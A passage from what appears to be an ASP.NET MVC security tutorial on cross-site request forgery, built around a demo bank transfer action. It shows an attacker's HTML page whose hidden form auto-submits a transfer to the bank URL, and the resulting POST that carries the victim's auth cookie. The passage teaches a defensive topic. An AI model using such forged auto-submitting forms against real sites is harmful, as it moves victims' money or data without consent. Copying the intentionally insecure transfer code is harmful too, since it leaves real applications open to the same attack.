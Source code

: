 ***Disclaimer: Do not write code like this**. This code is for
demonstration purposes only. For example, I don’t ensure that amount
non-negative, which means you can enter a negative value to transfer
money from another account. Like I said, if you see a bank website like
this, run!*

The code is straightforward. We simply transfer money from one account
to another. At this point, everything looks fine. We’re making sure the
user is logged in before we transfer money. And we are making sure that
this method can only be called from a POST request and not a GET request
(this last point is important. **Never allow changes to data via a GET
request**).So what could go wrong?

Well *BadGuy*, another bank user has an idea. He sets up a website that
has a page with the following code:

```csharp
<html>
<head>
    <title></title>
</head>
<body>
    <form name="badform" method="post"
     action="http://localhost:54607/Home/Transfer">
        <input type="hidden" name="destinationAccountId" value="2" />
        <input type="hidden" name="amount" value="1000" />
    </form>
    <script>
        document.badform.submit();
    </script>
</body>
</html>
```

What he’s done here is create an HTML page that replicates the fields in
bank transfer form as hidden inputs and then runs some JavaScript to
submit the form. The form has its `action` set to post to the bank’s
URL.

When you visit this page it makes a form post back to the bank site. If
you want to try this out, I am hosting [this HTML
here](http://demo.haacked.com/security/csrf-mvc.html "CSRF Attack Demo").
You have to make sure the website sample code is running on your machine
before you click that link to see it working.

Let’s look at the contents of that form post.

>     POST /Home/Transfer HTTP/1.1
>     Referer: https://haacked.com/demos/csrf-mvc.html
>     User-Agent: ...
>     Content-Type: application/x-www-form-urlencoded
>     Host: 127.0.0.1:54607
>     Content-Length: 34
>     Cookie: .ASPXAUTH=98A250...03BB37
>
>     Amount=1000&destinationAccountId=2

